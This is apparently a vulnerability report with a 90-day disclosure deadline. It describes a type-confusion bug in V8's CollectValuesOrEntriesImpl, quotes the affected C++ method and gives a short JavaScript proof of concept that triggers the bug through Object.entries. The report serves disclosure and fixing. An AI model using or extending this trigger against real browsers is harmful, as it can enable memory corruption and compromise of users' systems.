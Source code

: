 Here's a snippet of the method.
https://cs.chromium.org/chromium/src/v8/src/elements.cc?rcl=3cbf26e8a21aa76703d2c3c51adb9c96119500da&l=1051

  static Maybe<bool> CollectValuesOrEntriesImpl(
      Isolate* isolate, Handle<JSObject> object,
      Handle<FixedArray> values_or_entries, bool get_entries, int* nof_items,
      PropertyFilter filter) {
      ...
    for (int i = 0; i < keys->length(); ++i) {
      Handle<Object> key(keys->get(i), isolate);
      Handle<Object> value;
      uint32_t index;
      if (!key->ToUint32(&index)) continue;
      uint32_t entry = Subclass::GetEntryForIndexImpl(
          isolate, *object, object->elements(), index, filter);
      if (entry == kMaxUInt32) continue;

      PropertyDetails details = Subclass::GetDetailsImpl(*object, entry);

      if (details.kind() == kData) {
        value = Subclass::GetImpl(isolate, object->elements(), entry);
      } else {
        LookupIterator it(isolate, object, index, LookupIterator::OWN);
        ASSIGN_RETURN_ON_EXCEPTION_VALUE(
            isolate, value, Object::GetProperty(&it), Nothing<bool>()); <<------- (a)
      }
      if (get_entries) {
        value = MakeEntryPair(isolate, index, value);
      }
      values_or_entries->set(count++, *value);
    }

    *nof_items = count;
    return Just(true);
  }

At (a), the elements kind can be changed by getters. This will lead to type confusion in GetEntryForIndexImpl.

PoC:
let arr = [];
arr[1000] = 0x1234;

arr.__defineGetter__(256, function () {
    delete arr[256];

    arr.unshift(1.1);
    arr.length = 0;
});

Object.entries(arr).toString();


This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.